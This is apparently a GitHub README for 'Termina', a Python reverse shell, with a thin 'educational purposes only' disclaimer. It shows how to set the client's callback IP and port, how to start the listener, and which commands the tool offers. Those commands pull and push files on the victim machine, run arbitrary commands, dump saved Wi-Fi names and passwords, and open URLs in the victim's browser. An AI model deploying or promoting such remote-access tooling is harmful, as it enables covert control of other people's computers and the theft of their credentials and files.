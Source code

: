 # **Termina**
### _A simple remote shell/reverse shell written in python_
# __
  ### ~ Hold your horses Adventurer, You have made this far so
  ### Pease consider this tool is created for educational purposes only.
  ### And not for those script kiddies who doesent know how to code or use metaxploit.
  ### If you doesent know the meaning of the sentence "educational purposes only" you are not welcome.
  ### Please don't harm anyone using this tool. (Script kiddies  use free tools to flex)
  ### If you are not a scriptkiddy or person who does know the meaning of "educational purposes only"
  ### You are free to use this tool. ~
# __
# How to use:
 ## Client:
  > ### Edit Line 5 and 6 to your ip or server ip and port
```python
import struct,socket,subprocess,os,platform,webbrowser as browser
# server_config
IP = "localhost" # Your server IP, default: localhost
port = 4444  # #Your server Port, default: 4444
```
 ## Server:
  > ### In command prompt enter cmmand
  ```bash
  python TerminaListner.py <ip address> <port>
  ```
  > ### Wait for the client connection
  > ### When the client is connected you can run any built in terminal commands or special sommands provided by the tool
   #### Eg-
   ```bash
     dir
     ls
     ipconfig
     ifconkig
     :kill
     :download
   ```
     
#Commands:
  > ### :help - ``` Display help command ```
  > ### :download - ``` Download file from client machine ```
   #### usage -
  ```bash
    :download <filename>.<extention>
  ```
  > ### :upload - ``` Upload file to client machine ```
   #### usage -
  ```bash
  :upload <filename>.<extention>
  ```
  > ### :kill - ``` Kill the connection with client machine ```
  > ### :exec - ```Run external command ```
   #### usage-
  ```bash
   :exec <command you wan to run in your mashine>
  ```
  > ### :check - ```Check if client machine is connected to internet```
  > ### :wifi - ```Show Client machine wifi info [names,passwod,etc]```
  > ### :browse - ```Open an website on client machine browser```
   #### usage-
  ```bash
  :browse <url>
  ```
  > ### pwd - ```Print working folder```
